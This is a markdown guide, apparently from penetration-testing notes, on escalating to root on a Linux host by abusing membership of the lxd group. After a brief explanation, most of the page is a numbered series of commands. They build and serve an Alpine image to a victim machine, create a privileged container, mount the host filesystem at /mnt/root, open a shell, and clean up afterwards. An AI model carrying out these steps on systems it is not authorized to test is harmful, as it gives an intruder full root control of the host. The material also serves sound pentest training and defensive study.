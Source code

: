 # LXD Group: Privilege Escalation

LXD is a daemon running as root.

Access control for LXD is based on **group membership**. The root user as well as members of the `lxd` group can *interact with the local daemon*. Anyone added to `lxd` group will have **full control** over **LXD**, which includes the ability to attach host devices and filesystems. Users can gain **root access to the host**.

**LXD-client** `lxc` is a command line tool to manage the LXD servers.

## Exploiting LXD Group Access

1. Check if current user is part of the high-privileged **LXD** group

        $ groups
        lxd

2. Clone the [LXD Alpine Linux image builder](https://github.com/saghul/lxd-alpine-builder) repository and build an alpine image

        git clone  https://github.com/saghul/lxd-alpine-builder.git
        cd lxd-alpine-builder
        ./build-alpine

3. Upload the alpine image (`filename.tar.gz`) to victim's machine

        python3 -m http.server 8080

4. Import this image into the image store (on victim's machine)

        lxc image import alpine-v3.3-x86_64-20160114_2308.tar.gz --alias rootimage

5. Create a **privileged container** from the imported alpine image

        lxc init rootimage CONTAINER_NAME -c security.privileged=true

6. Mount the host file system to `/mnt/root` folder on the container

        lxc config device add CONTAINER_NAME mydevice disk source=/ path=/mnt/root recursive=true

7. Start the container

        lxc start CONTAINER_NAME

8. Get shell access on the privileged container

        lxc exec CONTAINER_NAME /bin/sh

9. Navigate to `/mnt/root/`

        cd /mnt/root/

10. Clean-up

        lxc stop CONTAINER_NAME
        lxc delete CONTAINER_NAME
        lxc image delete rootimage

## References

* https://www.hackthebox.eu/
* https://blog.m0noc.com/2018/10/lxc-container-privilege-escalation-in.html
* https://linuxcontainers.org/lxd/getting-started-cli/#initial-configuration
* https://linuxcontainers.org/lxd/docs/master/security
* https://blog.m0noc.com/2018/10/lxc-container-privilege-escalation-in.html
